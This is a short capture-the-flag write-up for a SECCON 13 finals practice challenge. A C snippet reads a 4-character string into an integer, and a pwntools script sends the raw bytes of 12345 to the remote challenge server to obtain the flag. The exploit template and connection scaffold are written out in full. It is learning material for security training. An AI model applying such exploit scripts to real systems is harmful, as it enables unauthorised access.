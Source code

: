 ## play with memory
<primary-label ref="pwn"/>

[](https://alpacahack.com/ctfs/seccon-13-finals-booth/challenges/play-with-memory)

```c
  scanf("%4s", &number);

  if (number == 12345) {
    print_flag();
  }
```


```py
from pwn import *
import sys

e = ELF("memory",checksec=False)
libc = ELF("/usr/lib/x86_64-linux-gnu/libc.so.6",checksec=False)
ld = ELF("/usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2",checksec=False)

nc = "nc 34.170.146.252 57944"
HOST = nc.split(" ")[1]
PORT = int(nc.split(" ")[2])

dbg = 1
g_script = """
    #set max-visualize-chunk-size 0x300
    b *main+86
"""

context.binary = e
if len(sys.argv) > 1:
    io = remote(host=HOST,port=PORT)
else:
    io = e.process()
    if dbg:
        gdb.attach(io,g_script)

s   = lambda b: io.send(b)
sa  = lambda a,b: io.sendafter(a,b)
sl  = lambda b: io.sendline(b)
sla = lambda a,b: io.sendlineafter(a,b)
r   = lambda : io.recv()
ru  = lambda b:io.recvuntil(b)
rl  = lambda : io.recvline()
pu32= lambda b : u32(b.ljust(4,b"\0"))
pu64= lambda b : u64(b.ljust(8,b"\0"))
hlog= lambda i : print(f"[*]{hex(i)}")
shell = lambda : io.interactive()
payload = b""
def pay64(adr:int):global payload;payload = p64(adr)
def add64(adr:int):global payload;payload+= p64(adr)
def paybyte(data:bytes):global payload;payload = data
def addbyte(data:bytes):global payload;payload+= data

sl(b"\x39\x30\x00\x00")

shell()
```
